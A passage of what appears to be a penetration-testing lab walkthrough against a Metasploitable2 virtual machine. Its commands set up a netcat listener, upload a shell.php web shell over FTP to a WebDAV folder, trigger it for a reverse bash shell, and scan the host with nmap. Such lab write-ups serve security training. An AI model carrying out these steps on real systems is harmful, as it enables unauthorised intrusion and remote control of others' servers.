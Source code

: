 ```bash
# Open a new tab and setup a listener
nc -nvlp 1234
```

```bash
# Login with FTP again and upload the shell.php
cd /
cd /var/www/
put shell.php
    local: shell.php remote: shell.php
    200 EPRT command successful. Consider using EPSV.
    553 Could not create file.
# The user does not have the necessary permissions
cd /var/www/dav
put shell.php
```

- Open the browser and run the `shell.php` file
  - `http://10.2.20.205/dav/`

```bash
/bin/bash -i
```

![Reverse shell received](assets/image-20230424145705593.png)

### PHP

```bash
nmap -sV -sC -p 80 10.2.20.205
```

```bash
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) DAV/2)
|_http-title: Metasploitable2 - Linux
|_http-server-header: Apache/2.2.8 (Ubuntu) DAV/2
```
